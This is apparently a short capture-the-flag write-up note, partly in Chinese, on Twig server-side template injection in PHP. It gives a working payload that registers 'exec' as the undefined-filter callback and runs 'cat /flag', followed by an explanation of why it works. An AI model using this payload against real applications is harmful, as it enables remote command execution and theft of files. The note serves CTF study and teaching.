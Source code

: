 ```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
这个看字面意思好像是先注册一个回调，当获取一个未定义的过滤器时候调用这个回调，并向它传递试图获取的过滤器名字，所以最终就变成了向`exec`传递`cat /flag`，也就获取到了`flag`
#Web #PHP #SSTI #RCE #twig